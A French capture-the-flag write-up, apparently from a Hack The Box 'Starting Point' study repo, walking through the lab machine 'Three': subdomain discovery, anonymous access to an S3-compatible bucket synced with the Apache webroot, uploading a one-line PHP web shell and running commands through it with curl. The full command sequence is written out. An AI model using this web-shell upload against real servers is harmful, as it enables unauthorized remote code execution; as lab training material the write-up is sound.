


[⬅ Retour à Starting Point](../README.md) · [🏠 Accueil du repo](../../../README.md)

# Machine 9 — THREE

**Stockage S3-compatible synchronisé au webroot — Ports 22, 80**

## Concept

Un sous-domaine expose un service compatible Amazon S3, synchronisé avec
le webroot Apache : un simple upload de fichier suffit à obtenir
l'exécution de code.

## Méthodologie — commandes complètes

> nmap -sV -sC 10.129.x.x
>
> \# → 22/tcp SSH, 80/tcp Apache + PHP
>
> \# Repérer le domaine (section Contact du site) et l'ajouter à
> /etc/hosts
>
> sudo nano /etc/hosts
>
> \# 10.129.x.x thetoppers.htb
>
> \# Énumération → sous-domaine découvert : s3.thetoppers.htb
>
> \# 10.129.x.x thetoppers.htb s3.thetoppers.htb
>
> sudo apt install awscli
>
> aws configure
>
> \# AWS Access Key ID: test
>
> \# AWS Secret Access Key: test
>
> \# Default region name: us-east-1
>
> \# Default output format: (vide)
>
> aws --endpoint=http://s3.thetoppers.htb s3 ls
>
> \# → bucket "thetoppers.htb" (= webroot Apache)
>
> echo '\<?php system(\$\_GET\["cmd"\]); ?\>' \> shell.php
>
> aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php
> s3://thetoppers.htb/ --acl public-read
>
> curl "http://thetoppers.htb/shell.php?cmd=id"
>
> curl "http://thetoppers.htb/shell.php?cmd=cat+/var/www/flag.txt"

Captures d'écran

*Scan Nmap initial de la machine Three : ports 22 (SSH) et 80 (HTTP)
ouverts.*

*Site "The Toppers" (port 80) affiché à gauche, terminal Nmap à droite.*

## Points clés

- Un service S3-compatible peut être exposé comme sous-domaine plutôt
  que via un port dédié : toujours penser à l'énumération de
  sous-domaines.

- aws configure accepte des identifiants factices quand le endpoint ne
  les valide pas réellement.

- Un bucket synchronisé avec le webroot transforme un simple droit
  d'écriture en exécution de code distante (RCE).

## Leçon retenue

*Ne jamais synchroniser un espace de stockage public avec un répertoire
web exécutable, et toujours restreindre les droits d'écriture sur les
buckets.*

---

[⬅ Précédent : Responder](08-responder.md) · [⬆ Index Starting Point](../README.md) · [Suivant : Vaccine ➡](10-vaccine.md)
